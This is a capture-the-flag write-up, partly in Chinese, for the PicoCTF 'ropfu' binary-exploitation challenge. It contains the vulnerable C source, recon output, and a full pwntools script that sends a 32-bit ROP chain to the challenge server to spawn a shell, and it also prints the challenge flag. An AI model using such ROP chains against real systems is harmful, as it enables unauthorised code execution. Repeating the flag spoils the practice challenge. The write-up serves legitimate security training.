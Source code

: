 ```yaml
---
title: PicoCTF - ropfu
tags: [PicoCTF, CTF, PWN]

category: "Security > Practice > PicoCTF > PWN"
---
```


# PicoCTF - ropfu
## Background
ROP Chain
x86 Calling Convention:
[Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```
:::
## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
這一題很明顯要開個shell，我以為會像[^pico_pwn_guessing_game][^0x12_rop++]這兩題一樣，事實上概念完全一樣，但換到x86的32bits版本就不知道為啥一直沒有成功，後來有想到是忽略了calling convention的問題，和x86-64的版本不一樣，另外指令的選擇上也不太一樣，像64bits的system call會用syscall，但x86會用int 0x80處理[^syscall_in_x86]，另外寫入`/bin/sh\x00`的方式也和之前的不一樣，之前是call __libc_read function之前把暫存器的部分擺好，就直接跳到__libc_read的地方去，但在這邊是沒辦法成功的，看了其他人的wp[^ropfu_wp]，大部分的做法都是直接用rop把值寫到對應的section中，詳細如下:
```assembly
pop edx -> bss address
pop eax -> 0x6e69622f -> /bin
mov DWORD PTR [edx] eax
pop edx -> bss address
pop eax -> 0x0068732f -> /sh\x00
mov DWORD PTR [edx] eax
```
寫完`/bin/sh\x00`就直接call execve的syscall開shell
## Exploit - ROP Chain
```python!
from pwn import *

# r = process('./vuln')
r= remote('saturn.picoctf.net', 54107)
context.arch = 'amd64'

r.recvline()

pop_eax_ret = 0x80b073a
pop_edx_ebx_ret = 0x80583b9
bss_addr = 0x080e5050
mov_dword_ptr_edx_eax_ret = 0x80590f2
pop_ecx_ret = 0x8049e29
int_0x80 = 0x0807163f

'''############
Read /bin/sh\x00
############'''
# raw_input()
r.sendline(b'a' * 0x1c + 
           p32(pop_edx_ebx_ret) + p32(bss_addr) + p32(0) + 
           p32(pop_eax_ret) + p32(0x6e69622f) +
           p32(mov_dword_ptr_edx_eax_ret) + 
           p32(pop_edx_ebx_ret) + p32(bss_addr + 4) + p32(0) + 
           p32(pop_eax_ret) + p32(0x0068732f) +
           p32(mov_dword_ptr_edx_eax_ret) + 

           p32(pop_eax_ret) + p32(0xb) + 
           p32(pop_edx_ebx_ret) + p32(0) + p32(bss_addr) + 
           p32(pop_ecx_ret) + p32(0) + 
           p32(int_0x80)
)

r.interactive()
```

Flag: `picoCTF{5n47ch_7h3_5h311_1b5a4b40}`
## Reference
[^ropfu_wp]:[ PicoCTF 2022: Beginner's Compilation ](https://enscribe.dev/ctfs/pico22/beginners-compilation/#ropfu)
[^pico_pwn_guessing_game]:[PicoCTF - Guessing Game 1](https://hackmd.io/@SBK6401/SkxoLuwoh)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)
[^syscall_in_x86]:[ 在 Linux 下寫組語, 透過 int 0x80 使用 system call ](http://guguclock.blogspot.com/2009/01/linux-int-0x80-system-call.html)
